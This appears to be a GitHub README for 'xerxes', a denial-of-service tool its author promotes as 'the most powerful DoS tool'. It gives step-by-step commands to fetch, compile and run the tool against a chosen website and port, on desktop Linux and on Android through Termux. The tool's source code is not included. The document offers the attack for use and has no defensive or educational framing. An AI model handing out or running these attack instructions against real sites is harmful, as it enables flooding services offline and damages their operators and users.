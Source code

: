 # xerxes

XERXES the most powerful DoS tool by zanyarjamal
Download the File xerxes.c to your Desktop
Open Terminal and type these commands
cd Desktop
gcc xerxes.c -o xerxes
*Usage : ./xerxes www.fakesite.com 80

On Android:

#Open Termux app

#Install Git

#Install Clang

#Git clone https://github.com/Achil-Xploit/xerxes.git

#Cd Xerxes

#chmod +x *

#clang xerxes.c -o xerxes

*Usage: ./xerxes www.fakesite.com 80
